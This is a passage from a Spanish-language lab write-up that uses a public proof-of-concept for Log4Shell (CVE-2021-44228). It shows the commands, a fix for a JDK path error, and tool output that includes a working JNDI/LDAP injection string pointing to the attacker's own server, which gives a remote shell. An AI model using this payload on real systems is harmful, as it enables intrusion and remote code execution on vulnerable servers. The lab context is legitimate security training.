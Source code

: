 - Este es el exploit que automatiza la explotación de la vulnerabilidad **Log4Shell**. Genera un exploit en java y usa **LDAP** y **HTTP** para desencadenar la ejecución del exploit, el exploit de **java** establece una conexión con el servidor **LDAP** y ejecuta la **shell**. Vamos a seguir los pasos que nos indican.

- Si les pasa este error, simplemente cambian el nombre y listo.

```bash
➜  log4j-shell-poc git:(main) ✗ python3 poc.py --userip 10.8.1.127 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Traceback (most recent call last):
  File "/home/miguel/Vulnlab/Feedback/content/log4j-shell-poc/poc.py", line 144, in <module>
    main()
  File "/home/miguel/Vulnlab/Feedback/content/log4j-shell-poc/poc.py", line 134, in main
    if not check_java():
           ^^^^^^^^^^^^
  File "/home/miguel/Vulnlab/Feedback/content/log4j-shell-poc/poc.py", line 86, in check_java
    exit_code = subprocess.call([
                ^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/subprocess.py", line 389, in call
    with Popen(*popenargs, **kwargs) as p:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.11/subprocess.py", line 1953, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: '/home/miguel/Vulnlab/Feedback/content/log4j-shell-poc/jdk1.8.0_20/bin/java'
➜  log4j-shell-poc git:(main) ✗ ls
Dockerfile  README.md     poc.py            target
LICENSE     jdk1.8.0_202  requirements.txt  vulnerable-application
➜  log4j-shell-poc git:(main) ✗ mv jdk1.8.0_202 jdk1.8.0_20
```

- Ahora funciona.

```bash
➜  log4j-shell-poc git:(main) python3 poc.py --userip 10.8.1.127 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.8.1.127:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
